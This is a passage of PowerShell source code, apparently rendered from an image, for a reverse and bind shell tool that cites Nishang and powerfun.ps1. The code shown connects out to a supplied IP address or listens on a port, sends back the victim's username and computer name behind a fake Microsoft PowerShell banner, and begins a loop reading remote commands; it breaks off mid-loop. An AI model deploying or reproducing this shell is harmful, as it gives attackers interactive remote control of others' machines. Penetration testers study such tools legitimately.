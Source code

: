 ```powershell
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
```